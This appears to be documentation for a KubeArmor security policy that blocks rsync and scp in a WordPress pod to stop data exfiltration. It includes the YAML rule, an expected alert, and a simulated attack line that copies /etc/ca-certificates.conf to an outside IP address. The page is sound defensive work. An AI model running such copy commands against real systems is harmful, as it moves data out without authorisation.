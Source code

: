 # File Copy
Prevent file copy using standard utilities.

## Narrative
Exfiltration consists of techniques that adversaries may use to steal data from your network. Once they’ve collected data, adversaries often package it to avoid detection while removing it. This can include compression and encryption. Techniques for getting data out of a target network typically include transferring it over their command and control channel or an alternate channel and may also include putting size limits on the transmission.

## Attack Scenario
It's important to note that file copy tools can be leveraged by attackers for exfiltrating sensitive data and transferring malicious payloads into the workloads. Additionally, it can also assist in lateral movement within the system. It's crucial to take proactive measures to prevent these attacks from occurring.<br /> **Attack Type** Credential Access, Lateral movements, Information Disclosure<br /> **Actual Attack** DarkBeam Data Breach, Shields Health Care Group data breach

## Compliance
- MITRE_TA0010_exfiltration
- NIST_800-53_SI-4(18)
- MITRE_TA0008_lateral_movement

## Policy
### File Copy
```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: harden-wordpress-remote-file-copy
  namespace: wordpress-mysql
spec:
  action: Block
  message: Alert! remote file copy tools execution prevented.
  process:
    matchPaths:
    - path: /usr/bin/rsync
    - path: /bin/rsync
    - path: /usr/bin/scp
    - path: /bin/scp
    - path: /usr/bin/scp
    - path: /bin/scp
  selector:
    matchLabels:
      app: wordpress
  severity: 5
  tags:
  - MITRE
  - MITRE_TA0008_lateral_movement
  - MITRE_TA0010_exfiltration
  - MITRE_TA0006_credential_access
  - MITRE_T1552_unsecured_credentials
  - NIST_800-53_SI-4(18)
  - NIST
  - NIST_800-53
  - NIST_800-53_SC-4
```
#### Simulation
```sh
root@wordpress-fb448db97-wj7n7:/usr/bin# scp /etc/ca-certificates.conf 104.192.3.74:/mine/                              
bash: /usr/bin/scp: Permission denied                                                                                   
root@wordpress-fb448db97-wj7n7:/usr/bin#     
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "d3mo",
  "ContainerID": "548176888fca6bb6d66633794f3d5f9d54930a9d9f43d4f05c11de821c758c0f",
  "ContainerImage": "docker.io/library/wordpress:4.8-apache@sha256:6216f64ab88fc51d311e38c7f69ca3f9aaba621492b4f1fa93ddf63093768845",
  "ContainerName": "wordpress",
  "Data": "syscall=SYS_EXECVE",
  "Enforcer": "AppArmor",
  "HostName": "master-node",
  "HostPID": 72178,
  "HostPPID": 30490,
  "Labels": "app=wordpress",
  "Message": "Alert! remote file copy tools execution prevented.",
  "NamespaceName": "wordpress-mysql",
  "Operation": "Process",
  "Owner": {
    "Name": "wordpress",
    "Namespace": "wordpress-mysql",
    "Ref": "Deployment"
  },
  "PID": 259,
  "PPID": 193,
  "ParentProcessName": "/bin/bash",
  "PodName": "wordpress-fb448db97-wj7n7",
  "PolicyName": "harden-wordpress-remote-file-copy",
  "ProcessName": "/usr/bin/scp",
  "Resource": "/usr/bin/scp /etc/ca-certificates.conf 104.192.3.74:/mine/",
  "Result": "Permission denied",
  "Severity": "5",
  "Source": "/bin/bash",
  "Tags": "MITRE,MITRE_TA0008_lateral_movement,MITRE_TA0010_exfiltration,MITRE_TA0006_credential_access,MITRE_T1552_unsecured_credentials,NIST_800-53_SI-4(18),NIST,NIST_800-53,NIST_800-53_SC-4",
  "Timestamp": 1696487496,
  "Type": "MatchedPolicy",
  "UpdatedTime": "2023-10-05T06:31:36.085860Z",
  "cluster_id": "2302",
  "component_name": "kubearmor",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```

## References
[MITRE Exfiltration](https://attack.mitre.org/tactics/TA0010/)<br />[Darkbeams data breach](https://www.idstrong.com/sentinel/darkbeams-alarming-data-breach/)<br />[Shields Healthcare Group Data Breach](https://www.idstrong.com/sentinel/shields-healthcare-group-data-breach/)<br />



